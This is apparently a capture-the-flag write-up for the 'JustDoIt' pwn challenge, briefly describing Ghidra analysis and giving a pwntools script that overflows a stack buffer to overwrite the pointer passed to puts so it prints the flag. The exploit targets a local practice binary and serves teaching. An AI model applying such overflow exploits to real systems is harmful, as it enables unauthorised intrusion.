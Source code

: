 # JustDoIt (pwn)
![image](https://github.com/AndreQuimper/Writeups/assets/96965806/9422e84b-0145-46e4-b3eb-10e10899194e)  

![image](https://github.com/AndreQuimper/Writeups/assets/96965806/58915c71-6dbf-4ba1-952d-1588e610451e)  

Running the program asks for a password, and then quits if we don't provide the correct one.  
![image](https://github.com/AndreQuimper/Writeups/assets/96965806/5ff0b70d-ac64-45a0-87ef-aa63f0b7ffeb)  

Let's load it into Ghidra and see what we find  
![image](https://github.com/AndreQuimper/Writeups/assets/96965806/c95f0057-a855-4d8c-99a8-8000244dc744)  

Since this challenge is almost identical to [tamu19_pwn1](/Nightmare/2.Stack_Buffer_Overflows/Basic/tamu19_pwn1.md) I won't go into deep detail. 
The difference is that we can now overwrite the variable that is being passed into `puts`, so we should overwrite it with the address of the string containing the flag.  

```python
from pwn import *

flag_addr = 0x0804a080

exploit = b'A'*20 + p32(flag_addr)
r = process('./just_do_it')
r.sendline(exploit)
r.interactive()
```

![image](https://github.com/AndreQuimper/Writeups/assets/96965806/53d48a81-3ad1-419d-8dcd-c37c59c535ba)  




